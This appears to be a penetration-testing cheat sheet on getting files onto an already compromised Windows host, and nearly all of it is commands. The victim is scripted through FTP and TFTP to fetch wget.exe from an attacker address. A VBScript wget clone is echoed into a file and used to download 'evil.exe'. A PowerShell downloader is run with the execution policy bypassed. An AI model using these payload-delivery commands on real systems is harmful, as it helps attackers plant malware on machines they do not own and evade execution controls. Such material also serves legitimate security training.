 # Windows basics

## Transferring files
Why is this so much harder in Windows? I don't know.

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file
echo open 192.168.1.101 21> ftp.txt
echo USER username>> ftp.txt
echo password>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt

Then run this command to connect to the ftp
```
ftp -v -n -s:ftp.txt
```
## TFTP
TFTP is installed by default on Windows XP and Windows 2003. Kali also has a TFTP server:
```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```
With this command you can serve files from `/srv/tftp`. 

From a Windows machine, use this to transfer files:
```
tftp -i [host] GET wget.exe
```
### VBScript
Here is a good script to make a wget-clone in VB (may need to be piped through unix2dos before copying it):
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
To execute:
```
cscript wget.vbs http://[hoste]/evil.exe evil.exe
```
### Powershell
Powershell can't be started in a non-interactive shell. But this script can start it:
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[host]/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
To execute:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
